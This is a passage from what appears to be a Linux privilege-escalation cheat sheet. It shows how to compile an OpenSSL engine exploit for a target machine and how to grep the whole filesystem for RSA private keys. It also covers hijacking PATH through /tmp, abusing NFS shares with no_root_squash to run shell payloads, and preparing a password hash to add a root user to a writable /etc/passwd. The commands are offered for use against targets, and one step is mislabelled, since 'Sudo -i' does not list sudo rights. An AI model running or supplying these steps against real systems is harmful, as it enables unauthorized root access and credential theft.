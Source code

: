 `step 3` Compile

```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c

gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

`Step 4` Execute \[openssl-exploit-engine.so] in your target machine.

#### Locating SSH private key files

```
find / -xdev -type f -print0 | xargs -0 grep -H "BEGIN RSA PRIVATE KEY"
```

#### changing PAH environment variable value

```
export PATH=/tmp:$PATH
echo $PATH
```

Useful when you want to execute your own payloads instead of legitimate ones with no defiend path.

#### Enumerating NFS shares with no\_root\_squash

On the target machine, list the shares

```
cat /etc/exports
```

Select the shares with \[rw] and \[no\_root\_squash] Then we mount the shares on our machine

```
showmount -e [target-ip]
mount -o rw ip:/backups [path-to-mount-folder-yourmachine]
```

Next step, create an executable payload that returns a shell \[you can any use of the C codes in this document]. Compile it then execute on the target machine.

#### Viewing the commands that can be run with sudo as the current user

```
root@kali:Sudo -i
```

#### Adding a user as root to the /etc/passwd file incase its writable

First we create a password with a salt for the user which will be added to /etc/passwd

```
root@kali:~$openssl passwd -1 -salt pentesting5 [yourpassword]
$1$hack$22.CgYt2uMolqeatCk9ih
```

